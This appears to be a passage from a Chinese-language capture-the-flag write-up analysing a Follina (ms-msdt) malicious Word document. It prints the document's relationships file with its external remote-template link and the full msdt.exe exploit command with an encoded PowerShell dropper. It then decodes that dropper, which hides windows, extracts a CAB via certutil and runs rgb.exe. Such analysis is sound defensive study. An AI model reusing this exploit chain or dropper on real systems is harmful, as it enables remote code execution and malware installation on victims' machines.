 ```bash!
word/_rels/document.xml.rels:<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/><Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="https://www.xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html!" TargetMode="External"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/></Relationships>
```

:::spoiler Flag
Flag: `document.xml.rels`
:::

## ==Q5==
> The extracted URL accesses a HTML file that triggers the vulnerability to execute a malicious payload. According to the HTML processing functions, any files with fewer than `<Number>` bytes would not invoke the payload. Submit the `<Number>` (Format: Number of Bytes)

### Recon
這一題是看[^wp1]的說明才知道答案的，首先我並不知道他中間傳輸的command為何，並且根據Fortinet的報告[^wp4]，可以知道這一個攻擊的具體poc以及mitigation，以下是從any.run project擷取下來的攻擊command，
```bash!
"C:\WINDOWS\system32\msdt.exe" ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO"
```
根據[^wp2]的說明，這是使用 ms-msdt 的架構，使用參數 IT_BrowseForFile 呼叫本機套件 PCWDiagnostic，其中包含嵌入在 $() 中的 PowerShell 語法，用base64 decode過後的關鍵payload如下:
```bash
$cmd = "c:\windows\system32\cmd.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```
以下是根據[^wp2]針對每一個步驟做簡短說明:
> Starts hidden windows to:
> Kill msdt.exe if it is running
> Loop through files inside a RAR file, looking for a Base64 string for an encoded CAB file
> Store this Base64 encoded CAB file as 1.t
> Decode the Base64 encoded CAB file to be saved as 1.c
> Expand the 1.c CAB file into the current directory, and finally:
> Execute rgb.exe (presumably compressed inside the 1.c CAB file)
